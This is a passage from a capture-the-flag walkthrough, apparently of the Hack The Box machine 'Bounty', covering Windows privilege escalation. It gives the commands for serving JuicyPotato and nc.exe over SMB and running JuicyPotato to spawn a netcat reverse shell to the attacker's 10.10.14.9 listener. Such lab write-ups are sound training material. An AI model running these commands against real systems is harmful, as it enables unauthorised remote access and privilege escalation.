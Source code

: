 ```powershell
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.93
```

The current version is vulnerable so I copied the binary with **smbserver.py** in order to execute it.

```powershell
smbserver.py smbFolder $(pwd) -smb2support
```

```powershell
copy \\10.10.14.9\smbFolder\JuicyPotato.exe .
```

Once copied I have executed it with the following arguments.

```powershell
.\JuicyPotato.exe -t * -p \Windows\System32\cmd.exe -l 1338 -a "/c \\10.10.14.9\smbFolder\nc.exe -e cmd 10.10.14.9 4445"
```

With a **smbserver** on the **nc.exe** binary and setting a **nc** listener on our local machine, we are able to do a reverse shell as root.

```powershell
nc -lv 4445
```

![Untitled](/HTB/bounty-14.png)

![Untitled](/HTB/bounty-15.png)

**Thank you for reading, and happy hacking! 😄**
